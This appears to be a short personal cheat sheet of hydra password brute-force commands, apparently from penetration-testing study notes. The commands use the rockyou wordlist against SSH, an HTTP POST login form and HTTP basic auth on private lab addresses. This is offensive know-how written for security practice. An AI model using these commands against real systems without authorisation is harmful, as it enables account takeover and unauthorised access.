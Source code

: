 #bruteforce #cracking 

### SSH

```bash
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.205.201
```
**-L for userlist**
**-s for port** 
#### WEB POST

```bash
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

#### HTTP Basic Auth

```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.221.201 -s 80 http-get
```

